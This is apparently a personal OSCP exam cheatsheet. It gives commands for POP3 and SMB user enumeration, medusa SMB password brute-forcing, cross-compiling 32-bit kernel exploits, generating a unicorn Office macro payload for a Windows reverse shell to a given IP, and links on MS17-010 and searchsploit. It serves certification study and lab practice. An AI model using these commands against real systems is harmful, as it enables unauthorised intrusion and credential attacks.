# Another-OSCP-Cheatsheet
This is my personal OSCP cheatsheet that also "hopefully" would let me pass my exam. Any improvement is welcome :)

## POP3 enum
Enumerate if any user has info:

    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
## SMB enum
**SHARES**

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4				
## Kernel Cross-Compiling
Really helpful if you are facing an old-school 32-bit box (believe me, there's tons of them in OSCP Labs xd)
Choose the --static option wisely https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** is a great tool u NEED to use in your OSCP journey https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits
**MS17-010** If you are facing EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/				

## Exploit search
Use -m to download the exploit

    searchsploit <service name>
    
